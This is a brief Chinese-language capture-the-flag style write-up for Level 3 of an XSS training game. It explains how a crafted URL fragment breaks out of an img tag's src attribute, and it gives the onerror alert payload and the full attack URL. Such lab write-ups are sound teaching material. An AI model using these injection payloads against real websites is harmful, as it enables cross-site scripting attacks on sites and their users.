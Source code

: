 # Level-3

## 攻擊原理

#### 網頁原始碼:
- index.html

#### 偽造 img tag:
- 使最後渲染的程式碼變成

```html
<img src='/static/level3/cloud" + num + onerror="alert('done'); + ".jpg' />
```

## 攻擊方法
在網址利列中插入 'onerror="alert('done');"
```
https://xss-game.appspot.com/level3/frame#1'onerror="alert('done');"
```

## 截圖

#### Request:
![image info](./00.png)

#### Rsponse:
![image info](./01.png)
